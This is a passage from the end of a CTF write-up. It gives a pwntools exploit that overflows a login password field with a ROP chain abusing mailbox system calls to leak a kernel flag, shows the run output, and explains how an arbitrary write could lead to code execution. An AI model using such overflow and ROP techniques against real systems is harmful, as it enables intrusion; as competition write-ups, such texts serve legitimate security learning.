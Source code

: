 ```py

def puts(addr):
    return b''.join([
        set_ebx(addr),
        set_eax(1),
        int30_ret,
    ])

r = remote('pwn.flagbot.ch', 8072)

rop_start = 0x40007f94
bss = 0x40006008

rop = b''.join([
    create_mailbox(0, 2, 1000, 0),
    mailbox_add(1, 0, 0x2000, 100),
    mailbox_get(1, 0, bss, rop_start + 4),
    puts(bss),
])

assert b'\n' not in rop and len(rop) < 0x400

r.sendlineafter(b'login: ', b'a')
r.sendlineafter(b'password for a', b'A' * 28 + rop)

r.interactive()
```

```
$ python3 exploit2.py
[+] Opening connection to pwn.flagbot.ch on port 8072: Done
[*] Switching to interactive mode

: AAAAAAAAAAAAAAAAAAAAAAAAAAAA\x8b\x03\x00\x00\x00\\x03\x00\x00\x00\x00\x00\x00\x00\x00gD\x00"\x00\x00E\x00\x8b\x03@\x00\x00\x00\x00d\x00\x00l\x00\x00\x00\x00\x00\x00\x00D\x00*\x00\x00E\x00\x8b\x03@\x00\x0`\x00\x98\x7f\x00@l\x00@\x00\x00\x00\x00\x00D\x00+\x00\x00E\x00\xa03\x0`\x00@gD\x00\x00\x00\x00

Sorry my friend, this is the wrong password
/kernel bjorn{n0w_g3t_cod3_ex3cuti0n}
```

And that's it! Getting code execution would not have been hard because `mbox_get`
essentially has the exact same vulnerability as `mbox_add` but in reverse (it
gives you an arbitrary *write* rather than an arbitrary *read*) and we could
have used it to overwrite a system call handler or a return address. However we
didn't need it to get the flag so I didn't write an exploit that does it (but
you can always try!).

## Conclusion

I want to thank the author of these three tasks, they were great fun to solve
and interesting. Unfortunately I didn't have a lot of time to play during the
weekend of the CTF and only managed to solve pwn challenges and one reverse.
I'm sure the other categories would have been great fun too. Still, we got first
blood on all 3 levels of this task and we are the only team who solved part 3,
so I'm not disappointed.
